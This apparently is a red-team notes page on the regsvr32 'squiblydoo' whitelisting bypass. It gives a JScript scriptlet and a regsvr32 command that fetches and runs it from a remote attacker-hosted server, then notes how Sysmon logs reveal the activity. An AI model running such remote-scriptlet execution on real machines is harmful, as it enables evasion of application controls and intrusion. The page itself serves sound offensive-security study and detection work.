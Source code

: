 ```yaml
---
description: regsvr32 (squiblydoo) code execution - bypass application whitelisting.
---
```


# regsvr32

## Execution

{% code title="http://10.0.0.5/back.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>
<registration
  progid="TESTING"
  classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
  <script language="JScript">
    <![CDATA[
      var foo = new ActiveXObject("WScript.Shell").Run("calc.exe"); 
    ]]>
</script>
</registration>
</scriptlet>
```
{% endcode %}

We need to host the back.sct on a web server so we can invoke it like so:

{% code title="attacker@victim" %}
```csharp
regsvr32.exe /s /i:http://10.0.0.5/back.sct scrobj.dll
```
{% endcode %}

## Observations

![calc.exe spawned by regsvr32.exe](../../.gitbook/assets/regsvr32.png)

Note how regsvr32 process exits almost immediately. This means that just by looking at the list of processes on the victim machine, the evil process may not be immedialy evident... Not until you realise how it was invoked though. Sysmon commandline logging may help you detect this activity:

![](../../.gitbook/assets/regsvr32-commandline.png)

Additionally, of course sysmon will show regsvr32 establishing a network connection:

![](../../.gitbook/assets/regsvr32-network.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1117" %}
